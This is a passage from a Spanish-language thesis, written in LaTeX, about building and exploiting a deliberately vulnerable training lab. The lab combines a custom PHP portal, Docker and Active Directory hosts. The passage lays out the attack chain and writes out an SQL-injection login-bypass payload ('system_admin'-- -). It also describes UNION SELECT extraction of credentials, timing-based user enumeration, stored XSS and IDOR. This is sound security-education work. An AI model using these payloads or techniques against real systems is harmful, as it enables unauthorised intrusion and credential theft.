La segmentación de red constituye uno de los mecanismos principales utilizados para aumentar el realismo del laboratorio y controlar las comunicaciones entre los distintos sistemas. En lugar de conectar todas las máquinas a una misma red virtual, se han definido diferentes segmentos que permiten simular la separación habitual existente entre servicios públicos e infraestructura interna. Esta división obliga al atacante a utilizar técnicas de pivoting y movimiento lateral para progresar dentro del entorno.

El servidor Ubuntu actúa como punto intermedio entre la red utilizada por el atacante y la infraestructura interna. Una vez comprometido este sistema, es posible acceder a recursos que inicialmente no eran visibles, reproduciendo así escenarios habituales de intrusión corporativa.

Además de mejorar el realismo de los escenarios de ataque, esta segmentación permite controlar con precisión qué servicios son accesibles desde cada zona de la infraestructura y facilita la implementación de ejercicios relacionados con enumeración de red, descubrimiento de servicios internos y explotación de relaciones de confianza.

La estructura de red adoptada proporciona un equilibrio adecuado entre complejidad y facilidad de despliegue, permitiendo reproducir técnicas avanzadas sin incrementar excesivamente los requisitos hardware del laboratorio.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/esquema-detallado-redes-VMware-interfaces.png}

    \vspace{0.2cm}
    \captionazul{Esquema detallado de la segmentación de red y configuración de interfaces en VMware Workstation.}

    \label{fig:esquema_redes}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{Imagenes/segmentacion-red-vmware.png}

    \vspace{0.2cm}
    \captionazul{Configuracion de la red en VMware}

    \label{fig:segmentacion_red-vmware}
\end{figure}


% ==========================================================
\subsection{Diseño del servidor vulnerable}
% ==========================================================

El servidor vulnerable constituye el elemento central del laboratorio y representa el principal punto de entrada para los escenarios de ataque implementados. Su diseño persigue reproducir las características de un servidor corporativo real que aloja una aplicación web accesible por los usuarios de la organización.

Para su implementación se ha seleccionado Ubuntu Server 22.04 como sistema operativo base debido a su estabilidad, amplia documentación y elevada adopción dentro de entornos empresariales. Sobre este sistema se despliegan los distintos servicios necesarios para ejecutar la aplicación vulnerable y proporcionar funcionalidades similares a las que podrían encontrarse en una pequeña empresa.

El servidor no se limita únicamente a alojar una aplicación web vulnerable, sino que también incorpora configuraciones inseguras, credenciales expuestas y distintos elementos destinados a facilitar la construcción de cadenas de ataque complejas. De esta forma, una vulnerabilidad inicial puede convertirse en el punto de partida para comprometer otros sistemas de la infraestructura.

El diseño del servidor se ha realizado intentando mantener un equilibrio entre realismo y valor didáctico. Las vulnerabilidades introducidas son representativas de problemas observados frecuentemente en entornos reales, pero han sido adaptadas para garantizar que puedan ser explotadas de forma controlada dentro del laboratorio.

% IMAGEN RECOMENDADA
% Vista general del servidor Ubuntu y servicios desplegados.

% ==========================================================
\subsubsection{Stack tecnológico}
% ==========================================================

La aplicación vulnerable se apoya sobre una pila tecnológica basada en componentes ampliamente utilizados en entornos reales. La selección de estas tecnologías permite que los escenarios desarrollados resulten representativos de situaciones que pueden encontrarse habitualmente durante auditorías de seguridad o ejercicios de Red Team.

El sistema operativo utilizado es Ubuntu Server 22.04. Sobre él se despliegan los servicios web necesarios para alojar la aplicación vulnerable y la base de datos asociada.

Para simplificar el despliegue y mejorar la reproducibilidad del entorno se ha optado por utilizar Docker y Docker Compose. Esta aproximación permite encapsular los distintos componentes de la aplicación y garantizar que el comportamiento del laboratorio sea consistente independientemente del equipo anfitrión utilizado.

La lógica de negocio del portal se ha desarrollado utilizando PHP, mientras que el almacenamiento de la información se realiza mediante MySQL. Finalmente, Apache HTTP Server actúa como servidor web encargado de atender las peticiones realizadas por los usuarios.

\vspace{0.5cm}
\renewcommand{\arraystretch}{1.5}

\begin{table}[h]
    \centering
    \captionazul{Stack tecnológico utilizado en el servidor vulnerable}

    \setlength{\arrayrulewidth}{0.05mm}

    \begin{tabular}{|C{5cm}|C{8cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Componente} & \textbf{Función}             \\
        \hline
        Ubuntu Server 22.04 & Sistema operativo base       \\
        \hline
        Docker              & Contenerización de servicios \\
        \hline
        Docker Compose      & Orquestación de contenedores \\
        \hline
        Apache HTTP Server  & Servidor web                 \\
        \hline
        PHP                 & Lógica de aplicación         \\
        \hline
        MySQL               & Base de datos                \\
        \hline
    \end{tabular}

    \renewcommand{\arraystretch}{1}
    \label{tab:stack_tecnologico}
\end{table}

\vspace{0.5cm}

% ==========================================================
\subsubsection{Portal web vulnerable}
% ==========================================================

Con el objetivo de evitar el uso de aplicaciones deliberadamente inseguras y aumentar el realismo del laboratorio, se desarrolló una aplicación web propia denominada \textit{Portal PYME}.

La aplicación simula un sistema de gestión utilizado por una pequeña organización y proporciona funcionalidades similares a las que pueden encontrarse en numerosos entornos empresariales. Entre ellas destacan la gestión de usuarios, la administración de clientes, el control de empleados y la gestión de incidencias mediante un sistema de tickets.

A diferencia de laboratorios clásicos como DVWA o Mutillidae, el portal desarrollado para este proyecto intenta presentar una apariencia más cercana a una aplicación corporativa real. Esto permite que las vulnerabilidades implementadas se integren de forma natural dentro del flujo de funcionamiento de la aplicación y facilita la construcción de escenarios de ataque más creíbles.

El portal constituye el principal punto de entrada al laboratorio y concentra la mayor parte de las vulnerabilidades utilizadas durante los distintos ejercicios de explotación.

% IMAGEN RECOMENDADA
% Captura de la página principal del Portal PYME.

% ==========================================================
\subsubsection{Vulnerabilidades implementadas}
% ==========================================================

Las vulnerabilidades incorporadas en el laboratorio han sido seleccionadas tomando como referencia las categorías definidas por OWASP Top 10, así como errores de configuración y malas prácticas frecuentemente observadas durante auditorías de seguridad reales.

El objetivo no consiste únicamente en demostrar la explotación aislada de cada vulnerabilidad, sino permitir la construcción de cadenas de ataque completas donde una debilidad inicial proporcione acceso a nuevos recursos, credenciales o sistemas internos.

Durante el diseño del laboratorio se ha buscado que las vulnerabilidades se encuentren integradas de forma natural dentro del funcionamiento de la aplicación, evitando mecanismos artificiales que reduzcan el realismo del entorno. De esta forma, el atacante debe realizar tareas de reconocimiento, enumeración y análisis antes de identificar los vectores de explotación disponibles.

Además de las vulnerabilidades presentes en la aplicación web, el laboratorio incorpora configuraciones inseguras y mecanismos de escalada de privilegios tanto en el entorno Linux como en la infraestructura Windows, permitiendo reproducir diferentes fases de una intrusión real.

\vspace{0.5cm}
\renewcommand{\arraystretch}{1.5}

\begin{table}[h]
    \centering
    \captionazul{Categorías de vulnerabilidades implementadas en el laboratorio}

    \setlength{\arrayrulewidth}{0.05mm}

    \begin{tabular}{|C{5cm}|C{8cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Categoría}              & \textbf{Objetivo}                     \\
        \hline
        Vulnerabilidades web            & Obtener acceso inicial al entorno     \\
        \hline
        Exposición de credenciales      & Facilitar el acceso a otros sistemas  \\
        \hline
        Escalada de privilegios Linux   & Obtener control completo del servidor \\
        \hline
        Configuraciones inseguras       & Aumentar la superficie de ataque      \\
        \hline
        Movimiento lateral              & Acceder a la infraestructura interna  \\
        \hline
        Debilidades en Active Directory & Comprometer recursos corporativos     \\
        \hline
    \end{tabular}

    \renewcommand{\arraystretch}{1}
    \label{tab:vulnerabilidades_laboratorio}
\end{table}

\vspace{0.5cm}

% IMAGEN RECOMENDADA
% Tabla resumen OWASP Top 10 implementado
% o captura de funcionalidades vulnerables del Portal PYME.

% ==========================================================
\subsection{Diseño de la infraestructura Active Directory}
% ==========================================================

La incorporación de una infraestructura Active Directory permite ampliar significativamente las posibilidades del laboratorio y reproducir escenarios de ataque que van más allá de la explotación inicial de una aplicación web.

En numerosos incidentes de seguridad reales, el compromiso de un servidor expuesto constituye únicamente la primera fase de la intrusión. Una vez obtenido acceso inicial, los atacantes suelen intentar acceder a sistemas internos, obtener credenciales corporativas y comprometer servicios de autenticación centralizados.

Con el objetivo de reproducir este tipo de situaciones, se ha diseñado una infraestructura Windows compuesta por un controlador de dominio y una estación de trabajo integrada en el dominio. Ambos sistemas permiten desarrollar ejercicios de enumeración, movimiento lateral, abuso de credenciales y post-explotación.

La arquitectura propuesta mantiene un nivel de complejidad suficiente para simular un entorno empresarial realista sin incrementar excesivamente los requisitos hardware necesarios para su ejecución.

Los detalles completos relativos a la instalación y personalización de la infraestructura Active Directory se incluyen en el Anexo~\ref{anexo:implementacion_active_directory}: \textit{Implementación de Active Directory}, donde se documenta el proceso de promoción del controlador de dominio, la creación de usuarios y grupos, la configuración de políticas y la integración de los equipos del dominio.

% IMAGEN RECOMENDADA
% Diagrama simplificado de Active Directory.

% ==========================================================
\subsubsection{Controlador de dominio - DC01}
% ==========================================================

DC01 constituye el controlador de dominio principal del laboratorio y representa el núcleo de la infraestructura Windows desplegada.

Este sistema se encuentra basado en Windows Server 2012 y proporciona los servicios necesarios para gestionar la autenticación, autorización y administración centralizada de usuarios y equipos. Desde este servidor se gestionan las cuentas de usuario, los grupos de seguridad, las políticas de dominio y diversos servicios internos necesarios para el funcionamiento de la organización simulada.

La elección de Windows Server 2012 responde a su amplia presencia histórica en entornos corporativos y a la disponibilidad de numerosas técnicas de ataque documentadas que permiten desarrollar escenarios de explotación realistas.

Desde la perspectiva ofensiva, DC01 constituye uno de los objetivos principales del laboratorio, ya que su compromiso permite acceder a información sensible y obtener control sobre el resto de sistemas integrados en el dominio.

% IMAGEN RECOMENDADA
% Captura del Administrador del Servidor o Active Directory Users and Computers.

% ==========================================================
\subsubsection{Estación de trabajo - DEV01}
% ==========================================================

DEV01 representa una estación de trabajo corporativa integrada dentro del dominio gestionado por DC01.

Este sistema se encuentra basado en Windows 7 y simula el equipo utilizado por un empleado de la organización. Su presencia dentro del laboratorio permite reproducir escenarios habituales de movimiento lateral y acceso a recursos internos tras comprometer otros sistemas de la infraestructura.

La estación de trabajo almacena información corporativa, credenciales y configuraciones que pueden resultar de interés para un atacante durante las fases posteriores de una intrusión.

La existencia de un equipo cliente integrado en Active Directory permite además evaluar las relaciones de confianza existentes dentro del dominio y reproducir técnicas de post-explotación ampliamente utilizadas en entornos Windows.

% IMAGEN RECOMENDADA
% Escritorio de DEV01 unido al dominio.

% ==========================================================
\subsubsection{Usuarios y políticas}
% ==========================================================

Con el objetivo de aumentar el realismo del laboratorio, se han definido distintos usuarios y grupos que representan perfiles habituales dentro de una pequeña organización.

La infraestructura incorpora cuentas administrativas y usuarios estándar con diferentes niveles de privilegio. Esta separación permite reproducir escenarios donde el atacante debe obtener credenciales adicionales para ampliar progresivamente el alcance de su compromiso.

Asimismo, se han configurado diferentes políticas de acceso y configuraciones de seguridad que permiten estudiar cómo determinados errores administrativos pueden facilitar el movimiento lateral o la escalada de privilegios dentro del dominio.

La distribución de permisos se ha diseñado intentando reflejar situaciones observadas frecuentemente en entornos reales, donde la acumulación de pequeños errores de configuración puede derivar en compromisos de gran impacto.

% IMAGEN RECOMENDADA
% Captura de usuarios y grupos de Active Directory.

% ==========================================================
\subsubsection{Servicios internos}
% ==========================================================

Además de los mecanismos de autenticación proporcionados por Active Directory, la infraestructura incorpora diversos servicios internos destinados a aumentar el realismo del laboratorio.

Entre ellos destacan los servicios de resolución DNS, compartición de recursos mediante SMB y mecanismos de administración remota que permiten la gestión centralizada de los sistemas Windows.

Estos servicios resultan especialmente relevantes desde el punto de vista ofensivo, ya que suelen constituir una fuente importante de información durante las fases de enumeración y movimiento lateral.

Su presencia permite reproducir procedimientos habituales utilizados por los atacantes para identificar sistemas internos, descubrir recursos compartidos y obtener acceso a información adicional sobre la infraestructura comprometida.

% ==========================================================
\subsection{Diseño del escenario ofensivo}
% ==========================================================

El laboratorio ha sido diseñado para permitir la ejecución de una cadena de ataque progresiva que reproduzca las distintas fases observadas habitualmente durante una intrusión real.

La secuencia comienza con actividades de reconocimiento dirigidas a identificar servicios expuestos y recopilar información sobre la organización simulada. Posteriormente, el atacante debe explotar una o varias vulnerabilidades presentes en la aplicación web para obtener acceso inicial al servidor Ubuntu.

Una vez comprometido el servidor, el escenario contempla la obtención de credenciales, la escalada de privilegios y el acceso a recursos internos que inicialmente no se encontraban disponibles.

Las fases posteriores incluyen tareas de enumeración sobre Active Directory, movimiento lateral entre sistemas y compromiso de recursos corporativos internos.

Este enfoque permite analizar de forma práctica cómo una vulnerabilidad aparentemente aislada puede convertirse en el punto de partida para comprometer una infraestructura completa.

% IMAGEN RECOMENDADA
% Kill Chain o flujo de ataque completo.

% ==========================================================
\subsection{Automatización y despliegue}
% ==========================================================

Uno de los objetivos principales del proyecto consiste en garantizar que el laboratorio pueda desplegarse de forma sencilla y reproducible en distintos equipos anfitriones.

Para ello se han desarrollado mecanismos de automatización destinados a reducir las tareas manuales necesarias durante la instalación y configuración de la infraestructura. Esta aproximación minimiza los errores de despliegue y facilita la utilización del laboratorio por parte de otros usuarios.

La automatización abarca tanto el despliegue de los componentes de la aplicación web como la preparación del entorno vulnerable y la configuración inicial de determinados servicios.

% ==========================================================
\subsubsection{Docker}
% ==========================================================

Docker constituye uno de los elementos clave utilizados durante el desarrollo del laboratorio.

Su utilización permite encapsular los distintos servicios necesarios para ejecutar la aplicación vulnerable dentro de contenedores independientes, simplificando su instalación y reduciendo las dependencias del sistema anfitrión.

Además de mejorar la reproducibilidad del entorno, Docker facilita las tareas de mantenimiento y permite desplegar rápidamente nuevas versiones del laboratorio sin necesidad de realizar modificaciones complejas sobre el sistema operativo base.

La combinación de Docker y Docker Compose permite definir toda la infraestructura necesaria mediante archivos de configuración fácilmente versionables y reutilizables.

% IMAGEN RECOMENDADA
% docker ps o arquitectura de contenedores.


% ==========================================================
\subsection{Repositorio y estructura del proyecto}
% ==========================================================

Todo el material desarrollado durante el proyecto se encuentra organizado dentro de un repositorio Git estructurado por componentes funcionales.

La utilización de control de versiones permite mantener un historial completo de modificaciones, facilitar el desarrollo iterativo del laboratorio y simplificar la distribución de futuras actualizaciones.

La estructura del repositorio separa claramente los elementos relacionados con la infraestructura vulnerable, los scripts de automatización, la documentación técnica y los recursos necesarios para la explotación de los distintos escenarios de ataque.

Esta organización mejora la mantenibilidad del proyecto y facilita que otros usuarios puedan comprender rápidamente la finalidad de cada componente y desplegar el laboratorio siguiendo la documentación proporcionada.

% IMAGEN RECOMENDADA
% tree -L 2 del repositorio.


% 6 Validación y explotación del laboratorio
\cleartooddpage
\vspace*{-1cm}

\nombreCapituloCabecera{RH}{Explotación del laboratorio}

\section{Explotación del laboratorio}
\label{sec:explotacion_del_laboratorio}

El objetivo de este capítulo es documentar la validación práctica del laboratorio mediante la ejecución de una cadena de ataque completa sobre la infraestructura diseñada. A diferencia de una validación basada en vulnerabilidades aisladas, la explotación se presenta siguiendo una secuencia lógica de compromiso, desde el reconocimiento inicial del servicio expuesto hasta el compromiso final de la infraestructura interna.

Todas las pruebas descritas se realizaron en un entorno controlado, aislado y autorizado, desplegado específicamente para este trabajo. El propósito de esta fase no es únicamente comprobar que las vulnerabilidades implementadas son explotables, sino demostrar que pueden encadenarse para reproducir una intrusión progresiva sobre un entorno corporativo simulado.

% ---------------------------------------------------

\subsection{Metodología de pruebas}

La validación se llevó a cabo desde una máquina atacante basada en Kali Linux. Las pruebas siguieron una metodología similar a la empleada en ejercicios de Red Team y pruebas de penetración, estructurada en fases sucesivas de reconocimiento, explotación, acceso inicial, escalada de privilegios, obtención de credenciales, movimiento lateral y compromiso final.

La cadena de ataque seguida durante la validación fue la siguiente:

\begin{enumerate}
    \item Reconocimiento de servicios expuestos.
    \item Explotación del portal web vulnerable.
    \item Obtención de acceso inicial al servidor Ubuntu.
    \item Escalada de privilegios sobre el servidor comprometido.
    \item Obtención de credenciales reutilizables.
    \item Movimiento lateral hacia la estación DEV01.
    \item Enumeración interna de Active Directory y DC01.
    \item Compromiso final de la infraestructura corporativa.
\end{enumerate}

Durante la ejecución de las pruebas se recopilaron evidencias mediante capturas de pantalla, salidas de herramientas y resultados de explotación. Estas evidencias permiten justificar la reproducibilidad de cada fase y relacionar los resultados obtenidos con el diseño ofensivo planteado en el Capítulo~\ref{sec:diseno_del_laboratorio}.

% ---------------------------------------------------

\subsection{Desarrollo de la cadena de ataque}

A continuación se describe la explotación del laboratorio siguiendo el mismo orden definido en la cadena de ataque planteada durante el análisis de amenazas. De esta forma, cada apartado representa una fase concreta del compromiso y no una vulnerabilidad aislada.

% ---------------------------------------------------

\subsubsection{Reconocimiento}

La primera fase de la cadena de ataque consistió en identificar qué sistemas se encontraban activos en la red accesible desde la máquina atacante. Antes de analizar servicios concretos, fue necesario realizar un escaneo de descubrimiento sobre el segmento de red correspondiente para localizar la dirección IP de la máquina expuesta del laboratorio.

Una vez identificada la dirección IP del servidor Ubuntu, se procedió a realizar un reconocimiento más detallado sobre dicho sistema. El laboratorio presenta como punto de entrada principal este servidor, encargado de alojar el portal web vulnerable utilizado durante las fases iniciales de explotación.

Mediante el escaneo de puertos se identificó un servicio HTTP publicado en el puerto 8080, correspondiente al Portal PYME. Este portal simula una aplicación corporativa con funcionalidades de autenticación, gestión de usuarios, consulta de clientes y sistema de tickets.

Tras identificar el servicio web, se realizó una enumeración de rutas y recursos internos. Esta fase permitió localizar diferentes componentes de interés, como el formulario de autenticación, el módulo de tickets, el panel interno y el directorio \texttt{/uploads/}. La presencia de este último resultó especialmente relevante, ya que posteriormente permitió validar una vulnerabilidad de carga de archivos.

El resultado de esta fase confirmó que la aplicación web constituía el principal vector de entrada al laboratorio y el punto inicial desde el que desarrollar la cadena de compromiso.



% ---------------------------------------------------

\subsubsection{Explotación web}

Una vez identificado el Portal PYME como superficie principal de ataque, se analizaron sus funcionalidades públicas e internas con el objetivo de localizar un vector válido de acceso. Esta fase se centró principalmente en tres elementos de la aplicación: el formulario de autenticación, el módulo de consulta de tickets y la funcionalidad de subida de archivos disponible tras acceder al panel interno.

En primer lugar, se evaluó el formulario de login ubicado en \texttt{/login.php}. Las respuestas obtenidas ante distintos nombres de usuario no mostraban diferencias relevantes en el código HTTP, tamaño de respuesta, redirecciones o cookies. Sin embargo, el análisis temporal permitió identificar un comportamiento anómalo asociado al usuario \texttt{system\_admin}, cuyas respuestas presentaban un retardo superior al resto. Esta diferencia permitió inferir la existencia de dicho usuario en la base de datos.

Tras identificar un usuario válido, se comprobó que el formulario aplicaba un filtro JavaScript en el lado cliente para bloquear determinados caracteres utilizados habitualmente en ataques de inyección. Este control no impedía que la petición fuera manipulada directamente antes de llegar al servidor. Al enviar el payload \texttt{system\_admin'-- -} directamente en el parámetro de usuario, se consiguió alterar la lógica de la consulta SQL y omitir la comprobación de la contraseña.

Como resultado, fue posible autenticarse en el portal como \texttt{system\_admin} sin conocer su contraseña y acceder al panel interno de administración de la aplicación.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/portal_interno.png}

    \vspace{0.2cm}
    \captionazul{Acceso al panel interno del Portal PYME tras explotar el formulario de autenticación.}
    \label{fig:portal_interno}
\end{figure}

Una vez dentro del portal, se analizó el módulo de tickets, especialmente el endpoint público encargado de consultar el estado de una incidencia mediante el parámetro \texttt{codigo}. Partiendo de un identificador válido, como \texttt{TCK-2026-001}, se comprobó que dicho parámetro era incorporado directamente en una consulta SQL sin una validación adecuada. La introducción de caracteres de control y consultas \texttt{UNION SELECT} permitió confirmar la vulnerabilidad, determinar el número de columnas de la consulta y extraer información de la base de datos.

Mediante esta técnica se recuperó información sensible de la tabla \texttt{empleados}, incluyendo nombres de usuario, contraseñas y roles internos. Entre los datos obtenidos destacaba la cuenta \texttt{system\_admin}, asociada a privilegios administrativos dentro del portal. Esta evidencia confirma que la vulnerabilidad del módulo de tickets podía utilizarse tanto para exfiltrar información como para obtener credenciales válidas de la aplicación.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/leak-databas-tickets.png}

    \vspace{0.2cm}
    \captionazul{Extracción de credenciales desde la base de datos mediante SQL Injection en el módulo de tickets.}
    \label{fig:leak_database_tickets}
\end{figure}

Durante el análisis del módulo de tickets también se validaron dos debilidades adicionales. Por un lado, la creación de tickets permitía introducir contenido HTML y JavaScript que posteriormente era renderizado por la aplicación sin una codificación adecuada, dando lugar a un caso de Cross-Site Scripting almacenado. Por otro lado, los identificadores de ticket seguían un formato predecible, como \texttt{TCK-2026-001}, \texttt{TCK-2026-002} o \texttt{TCK-2026-003}. La modificación manual del parámetro \texttt{codigo} permitía consultar incidencias ajenas si no existía una comprobación de autorización asociada al usuario autenticado.

Estas dos vulnerabilidades no fueron necesarias para avanzar en la cadena principal de compromiso, pero permiten demostrar que el Portal PYME contiene varios vectores de explotación habituales en aplicaciones corporativas. En un entorno real, el XSS almacenado podría utilizarse para afectar a usuarios internos o administradores, mientras que el IDOR podría permitir la exposición de información perteneciente a otros usuarios.

\begin{figure}[H]
    \centering
